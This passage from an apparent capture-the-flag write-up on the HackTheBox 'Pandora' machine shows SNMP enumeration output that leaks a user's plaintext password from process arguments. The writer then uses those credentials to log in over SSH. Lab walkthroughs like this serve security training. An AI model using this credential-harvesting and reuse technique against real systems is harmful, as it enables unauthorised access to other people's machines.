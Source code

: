 ```bash
iso.3.6.1.2.1.25.4.2.1.5.815 = ""
iso.3.6.1.2.1.25.4.2.1.5.816 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.818 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.825 = STRING: "-LOw -u Debian-snmp -g Debian-snmp -I -smux mteTrigger mteTriggerConf -f -p /run/snmpd.pid"
iso.3.6.1.2.1.25.4.2.1.5.827 = ""
iso.3.6.1.2.1.25.4.2.1.5.901 = STRING: "-o -p -- \\u --noclear tty1 linux"
iso.3.6.1.2.1.25.4.2.1.5.928 = STRING: "--no-debug"
iso.3.6.1.2.1.25.4.2.1.5.975 = ""
iso.3.6.1.2.1.25.4.2.1.5.1128 = STRING: "-u daniel -p HotelBabylon23"
iso.3.6.1.2.1.25.4.2.1.5.1592 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.2327 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.2934 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.4035 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.5177 = ""
iso.3.6.1.2.1.25.4.2.1.5.7327 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.10020 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.10393 = ""
iso.3.6.1.2.1.25.4.2.1.5.10828 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.11958 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.12066 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.12791 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.12982 = ""
iso.3.6.1.2.1.25.4.2.1.5.13019 = ""
iso.3.6.1.2.1.25.4.2.1.5.13094 = ""
iso.3.6.1.2.1.25.4.2.1.5.13095 = ""
```
{: .nolineno}
{: .nolineno}

I got some credentials through this SNMP enumeration →

```bash
daniel : HotelBabylon23
```
{: .nolineno}
{: .nolineno}

## SSH Shell ⤵️

Lets login with that shell →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Pandora]
└─$ ssh daniel@panda.htb
daniel@panda.htb is password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 31 Dec 16:51:39 UTC 2023

  System load:           0.08
  Usage of /:            65.5% of 4.87GB
  Memory usage:          12%
  Swap usage:            0%
  Processes:             230
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.136
  IPv6 address for eth0: dead:beef::250:56ff:feb9:b642

  => /boot is using 91.8% of 219MB

```